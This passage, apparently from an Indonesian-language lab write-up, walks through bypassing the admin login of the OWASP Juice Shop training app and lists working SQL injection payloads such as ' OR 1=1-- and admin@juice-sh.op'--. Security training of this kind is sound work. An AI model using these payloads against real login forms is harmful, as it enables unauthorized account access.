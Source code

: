 
### Step 3: SQL Injection Authentication Bypass
- Menggunakan teknik SQL injection untuk bypass authentication
- Payload yang digunakan pada field email:
```sql
admin@juice-sh.op'--
```
- Atau menggunakan payload universal:
```sql
' OR 1=1--
```
- Password bisa diisi dengan value apapun


<img width="1850" height="1079" alt="image" src="https://github.com/user-attachments/assets/4e767a0e-886f-4ebe-a171-26eb709a8334" />

---

### Step 4: Successful Admin Login
- SQL injection berhasil membypass authentication
- Login sebagai admin berhasil tanpa mengetahui password yang benar
- Dashboard admin atau fitur admin menjadi accessible
- Challenge "Login Admin" berhasil diselesaikan

step 4
<img width="1919" height="1079" alt="image" src="https://github.com/user-attachments/assets/9e19a180-8cfb-454a-856a-004942793c99" />

---

## 4. Payload yang Berhasil

### Method 1: Comment-based bypass
```sql
Email: ' OR true--
Password: kosong
```

### Method 2: Boolean-based bypass
```sql
Email: admin@juice-sh.op' OR '1'='1'--
Password: (any value)
```

### Method 3: Universal bypass
```sql
Email: ' OR 1=1--
Password: (any value)
```

---

## 5. Penjelasan Teknis
